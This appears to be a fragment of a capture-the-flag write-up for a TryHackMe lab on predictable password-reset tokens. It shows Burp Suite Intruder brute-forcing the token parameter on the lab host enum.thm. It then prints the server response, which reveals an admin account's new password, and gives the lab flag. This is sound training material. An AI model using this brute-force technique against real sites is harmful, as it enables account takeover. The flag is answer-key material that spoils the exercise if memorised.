 
```
burp suite > intercept On > intruder load otp.txt

GET /labs/predictable_tokens/reset_password.php?token=123

Target: http://enum.thm
Payload:
GET /labs/predictable_tokens/reset_password.php?token=§123123§ HTTP/1.1
```

The attack will take some time to finish if you're using Burp Suite Community Edition. However, once successful, you will get a response with a much bigger content length compared to the responses with an "Invalid token" error message.
`1178 length` 

```
191        1127 

HTTP/1.1 200 OK
Date: Mon, 20 Jan 2025 17:36:42 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 789
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="styles.css">
    <script src="jquery.min.js"></script>
    <title>Reset Password</title>
</head>
<body>
    <div class="container">
        <div class="content">
            <h1>Reset Password</h1>
            <div class="column-50">
                <p id="messages">
                    <p class="succ">Your new password is: V1Lq7wr0</p><p class="succ">Email: admin@admin.com</p>                </p>
            </div>
            <h2 id="qsin">Login? <a id="link" href="index.php"><u>Click here</u></a></h2>
        </div> 
    </div>  
</body>
</html>

admin@admin.com
V1Lq7wr0


THM{50_pr3d1ct4BL333!!}

```
